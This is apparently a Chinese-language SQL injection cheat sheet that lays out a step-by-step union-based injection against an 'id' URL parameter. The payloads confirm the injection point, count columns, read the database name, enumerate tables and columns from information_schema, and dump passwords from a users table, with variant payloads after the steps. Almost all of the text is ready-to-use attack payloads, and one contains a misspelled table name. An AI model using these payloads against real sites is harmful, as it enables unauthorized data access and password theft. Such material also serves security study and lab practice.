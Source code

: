 





## 注入流程

1.判断是否存在注入

```
?id=1' and '1'='1
```

2.判断列数

```
?id=1' order by 4--+
# 5的时候不显示，4的时候显示正常就是4列
```

3.数据库名

```
?id=0' union select 1,2,3,database()--+
```

4.根据数据库查数据表名

```
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```

5.根据表名查列名

```
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.clumns where table_name='前面查出来的表名' and table_schema=database() --+
```

6.数据

```
?id=0' union select 1,2,3,group_concat(password) from users --+
```





## 联合注入

```bash
?id=1' order by 4--+

?id=0' union select 1,2,3,database()--+

?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+

?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="users" --+
#group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name


?id=0' union select 1,2,3,group_concat(password) from users --+
#group_concat 可替换为 concat_ws(',',id,users,password )


?id=0' union select 1,2,3,password from users limit 0,1--+
```
